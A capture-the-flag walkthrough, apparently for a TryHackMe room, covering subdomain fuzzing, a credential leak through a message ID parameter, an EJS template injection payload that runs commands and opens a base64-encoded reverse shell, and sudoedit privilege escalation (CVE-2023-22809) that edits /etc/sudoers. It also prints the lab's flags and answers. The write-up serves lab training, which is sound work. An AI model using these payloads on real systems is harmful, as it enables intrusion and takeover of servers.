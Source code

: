 ```yaml
---

## 🧠 Summary

This room is based on Mr. Robot and explores topics like virtual host enumeration, login panel access, SSTI exploitation in EJS templates, and privilege escalation through a sudoedit vulnerability (CVE-2023-22809).  
We’ll go from web enumeration all the way to getting root via environment variable abuse.

---
```


## 🔍 Enumeration

Run a full TCP scan:

```bash
nmap -p- -T4 -A MACHINE_IP -vvv
````

### Open Ports

* **22/tcp** – SSH
* **80/tcp** – HTTP

![Screenshot From 2025-05-13 11-02-44](https://github.com/user-attachments/assets/7df9d6ec-91ba-485a-9aac-ecbc5703956e)

---

## 🌐 Web Enumeration

Check the page at `http://cyprusbank.thm`. Not much useful there.

Use `ffuf` for subdomain fuzzing:

```bash
ffuf -u http://cyprusbank.thm/ -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

**Interesting findings:**

* `admin.cyprusbank.thm` – Returns **302 Redirect**

Add this to `/etc/hosts`:

```
MACHINE_IP  admin.cyprusbank.thm
```

![Screenshot From 2025-05-13 11-12-08](https://github.com/user-attachments/assets/88928e06-1c80-411c-bb28-c2953469b6d3)

---

## 🔑 Login Panel

Visit: `http://admin.cyprusbank.thm`

Try the given credentials:

* **Username:** Olivia Cortez
* **Password:** olivi8

✅ Success! You’re logged in.

Check the **Messages** tab:
URL looks like:

```
http://admin.cyprusbank.thm/messages/?c=5
```

Try manipulating the `?c=5` parameter to `?c=0`.

![Screenshot From 2025-05-13 11-15-08](https://github.com/user-attachments/assets/bf8013f3-0fe5-4ec8-b2aa-d8337a8f5000)

![Screenshot From 2025-05-13 11-22-08](https://github.com/user-attachments/assets/ecc6bfcf-e010-43d2-b86c-99d1e096c167)

You’ll find:

> **Admin Username:** Gayle Bev
> 
> **Password:** `p~]P5!6;rs558:q`

---

## ☎️ Find Tyrell's Phone Number

After logging in as **Gayle Bev**, you’ll find a phone number:

**Answer:** `842-029-5701`

---

## 🔥 XSS + SSTI Discovery

In **Settings**, you can add a user and see the password reflected back – likely a candidate for **XSS** or **SSTI**.

Using Burp Suite to intercept the POST request, we see evidence of **EJS** templates.

![Screenshot From 2025-05-13 11-30-43](https://github.com/user-attachments/assets/14169de9-15de-49b3-9bb8-648c480761bf)

---

## ⚙️ Exploiting EJS Server-Side Template Injection

### Resource:

[https://eslam.io/posts/ejs-server-side-template-injection-rce](https://eslam.io/posts/ejs-server-side-template-injection-rce)

Use Burp Suite with the payload:

```bash
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').exec('COMMAND')
```

![Screenshot From 2025-05-13 11-58-25](https://github.com/user-attachments/assets/5f57b7db-7321-4546-a1ad-6a3542471668)

![Screenshot From 2025-05-13 11-58-57](https://github.com/user-attachments/assets/38bb71ae-f573-4719-8497-6211a739da84)


### Reverse Shell Payload (Base64-encoded BusyBox)

Set up a listener:

```bash
nc -lnvp 4445
```

Inject payload:

```bash
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo <REPLACE WITH YOURS> | base64 -d | bash"');//
```

![Screenshot From 2025-05-13 12-06-07](https://github.com/user-attachments/assets/28d495b6-5ed5-40b6-a929-6facacc36e64)

![Screenshot From 2025-05-13 12-15-22](https://github.com/user-attachments/assets/f9703a21-5bc3-4e78-936e-832a9c16b0b7)


Get a shell and stabilize:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![Screenshot From 2025-05-13 12-21-34](https://github.com/user-attachments/assets/bf5b3fb7-8d4e-4288-9f5e-c093743a4946)


---

## 🏁 User Flag

> Location: `/home/web/user.txt`

**Flag:**

```
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```

---

## 🔼 Privilege Escalation (CVE-2023-22809)

Run:

```bash
sudo -l
```

Findings:

```bash
(web) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Exploit via `EDITOR` environment variable:

```bash
export EDITOR='nano -- /etc/sudoers'
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Add this line:

```bash
web ALL=(ALL) NOPASSWD: ALL
```


Get root:

```bash
sudo su -
```

---

## 🧾 Root Flag

> Location: `/root/root.txt`

**Flag:**

```
THM{4nd_uR_p4ck4g3s}
```

---

## ✅ Conclusion

* Enumerated virtual hosts with ffuf
* Found and used user and admin credentials
* Exploited SSTI in EJS templates for RCE
* Gained root via CVE-2023-22809 (sudoedit bypass)

**Lesson:** Always validate template inputs and keep your packages up to date.

```

Let me know if you want me to create the full file and upload it for GitHub directly.
```
